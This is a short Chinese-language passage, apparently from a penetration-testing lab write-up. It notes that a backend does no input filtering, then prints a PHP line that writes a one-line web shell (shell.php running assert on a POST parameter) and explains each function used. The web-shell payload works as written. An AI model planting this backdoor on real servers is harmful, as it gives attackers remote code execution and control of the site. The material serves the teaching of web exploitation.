 > <img src="./IMG/}@2)2G8~QSRHJ38G9MM7)$0.png">

说明后台对输入的内容没有进行任何过滤，下面生成一个一句话木马文件

```php
fputs(fopen('shell.php','w'),'<?php assert($_POST[admin]);?>');
```

- `fputs(arg1, arg2[, arg3])` 写入文件函数，有三个参数，arg1指定要写入的文件，arg2指定写入的字符串，arg3可选，指定写入的最大字节数

- `fopen(arg1, arg2[, arg3, arg4])` 打开文件函数，有四个参数，arg1指定需要打开的文件，arg2指定该文件的访问方式，arg3指定是否开启检索，arg4指定文件句柄的环境

- `'w'` w是fopen()函数中第二个参数的其中一项，指以写入方式打开文件，并将文件大小截为0。如果文件不存在，则创建该文件

- `assert()` 断言函数，此处是将括号内的内容作为PHP代码执行

文件创建成功

> <img src="./IMG/D{VRWQH1YL(}]F@GD$ZSR{6.png">
